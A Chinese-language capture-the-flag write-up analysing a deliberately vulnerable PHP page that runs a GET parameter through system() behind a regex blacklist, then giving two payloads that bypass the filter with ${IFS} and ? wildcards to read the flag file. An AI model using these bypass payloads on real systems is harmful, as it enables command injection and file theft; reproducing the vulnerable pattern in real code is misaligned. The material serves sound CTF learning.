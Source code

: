 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 19:43:42
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

cat

flag

空格

数字

more

wget

less

head

sort

tail

sed

cut

tac

awk

strings

od

curl

nl

scp

rm

`

%

\x09即制表符

\x26即&符号

\>

\<



且命令

.\*c.\*a.\*t.\*

中间这些.*表示很多内容，也就是说包含cat这样的会被匹配过滤

那么如cat，c123415rsda12zs123t等凡是拼接cat的都会被匹配

因此我们不能直接写ca?，这样是匹配不到命令





### 第一种

利用${IFS}绕过空格

利用?匹配字符

```
?c=ls
```

![image-20250403162706550](./assets/image-20250403162706550.png)

```
?c=/bin/ca?${IFS}????.???
```

![image-20250403162749567](./assets/image-20250403162749567.png)







### 第二种

利用uniq

```
?c=uniq${IFS}????.???
```

![image-20250403163040288](./assets/image-20250403163040288.png)
